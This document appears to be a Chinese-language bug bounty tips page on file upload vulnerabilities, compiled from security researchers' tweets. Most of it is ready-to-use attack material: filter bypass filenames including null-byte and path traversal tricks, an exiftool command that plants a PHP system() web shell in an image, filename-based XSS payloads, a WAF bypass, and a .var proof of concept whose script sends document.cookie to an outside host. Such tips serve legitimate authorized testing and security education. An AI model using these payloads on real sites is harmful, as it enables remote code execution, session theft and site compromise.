 # File Upload BugBountyTips

### 文件上传 (File Upload):

1.[@Zigoo0](https://twitter.com/Zigoo0/status/1247175475316830208)：一些缓存服务器会缓存大于2mb的文件。如果应用接受文件上传，则上传大文件并访问#multiple登录次数。它将被缓存。然后无需登录即可访问它，并且可以使用pingo！未经授权访问敏感文件！。

2.[@YShahinzadeh](https://twitter.com/YShahinzadeh/status/1063403827590762497)：上传点漏洞:

```bash
Content-Disposition: form-data; name="FactorImage"; filename="Untitled.jpg\test.aspx"
Content-Type: image/jpeg

Res:
{"StoreHousePicture_File":"test.aspx","Success":true}
```

3.利用文件上传点，两篇文章:

  >[利用文件上传点。1 – MIME嗅探到存储的XSS](https://anotherhackerblog.com/exploiting-file-uploads-pt1/)
 
  >[利用文件上传点。2 –价值$ 3k RCE的故事](https://anotherhackerblog.com/exploiting-file-uploads-pt-2/)

4.文件上传的一些Payload：

  >[Uploads Payloads](https://github.com/1N3/IntruderPayloads/tree/master/Uploads)

5.[@0xsapra](https://twitter.com/0xsapra/status/1258628238655598592)：Bypass 大多数文件上传过滤器:

```bash
* .htaccess <- upload htaccess
* file.svg <- uploading svg = xss
* file.SVg <- must try case mismatch
* file.png.svg
* file.php%00.png
* file.png' or '1'='1
* ../../file.png
* file.'svg <- invalid ext.
```

6.在图像中绕过文件上传过滤:

```bash
exiftool -Comment='<?php echo "<pre>"; system(Array['cmd']); ?>' shell.jpg mv shell.jpg shell.php.jpg
```

7.[@HusseiN98D](https://twitter.com/HusseiN98D/status/1194304002969743362):在IIS7服务器上测试文件上传表单时，如果将".asp"扩展名列入黑名单，则可以通过上传".cer"文件来获得RCE。

8.如果您找到图像的文件上传功能，请尝试引入文件名中带有XSS的图像，如下所示：

```js
<img src=x onerror=alert('XSS')>.png
"><img src=x onerror=alert('XSS')>.png
"><svg onmouseover=alert(1)>.svg
<<script>alert('xss')<!--a-->a.png
```

9.[@chybeta](https://twitter.com/chybeta):遇到文件上传漏洞时，除了能直接上传webshell解析外，经常能遇到只能上传静态文件造成存储XSS的。在不能上传html的情况下还可以尝试下面这些.xml, .xsl, .rdf, .svg, .shtml, .htm, .application, .mht, .var。在今年的HITCON CTF 2020上 Orange大佬出了一题 ostyle，针对 var 后缀文件造成的XSS。因为apache自带mod_negotiation在处理 var 扩展时，允许自行指定Content-type，从而造成了XSS.以下是POC:

```bash
Content-language: en
Content-type: text/html
Body:----foo----

<script>
fetch('http://orange.tw/?' + escape(document.cookie))
</script>
```

10.文件上传绕过WAF，一个案例，文件上传（.php被阻止）：

```bash
/?file=xx.php    <- Blocked
/?file===xx.php  <- Bypassed
```

文件上传成功。


